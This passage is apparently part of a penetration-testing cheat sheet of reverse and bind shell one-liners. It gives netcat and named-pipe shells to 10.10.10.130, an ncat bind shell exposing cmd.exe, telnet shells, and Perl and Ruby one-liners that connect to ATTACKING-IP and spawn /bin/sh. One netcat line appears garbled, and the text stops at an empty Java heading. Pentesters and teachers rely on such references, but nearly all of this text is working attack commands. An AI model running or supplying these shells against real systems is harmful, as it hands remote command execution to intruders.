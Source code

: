 ### Without -e flag

```text
>> Example 1
rm -f /tmp/p; mknod /tmp/p p && nc 10.10.10.130 443 0/tmp/p

>> Example 2
mknod /tmp/p p && /bin/sh 0</tmp/p | nc 10.10.10.130 443 1>/tmp/p
```

Upgrade Netcat shell to an interactive:

\[1\] [https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/)

## Ncat

Ncat is a better and more modern version of netcat. One feature it has that netcat does not have is encryption. If you are on a pentest job you might not want to communicate unencrypted.

Bind

```text
ncat --exec cmd.exe --allow 192.168.1.101 -vnl 5555 --ssl
ncat -v 192.168.1.103 5555 --ssl
```

## Telnet

```text
rm -f /tmp/p; mknod /tmp/p p && telnet ATTACKING-IP 80 0/tmp/p
```

```text
telnet ATTACKING-IP 80 | /bin/bash | telnet ATTACKING-IP 443
```

## Perl

```perl
perl -e 'use Socket;$i="ATTACKING-IP";$p=80;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```

## Ruby

```ruby
ruby -rsocket -e'f=TCPSocket.open("ATTACKING-IP",80).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```

## Java
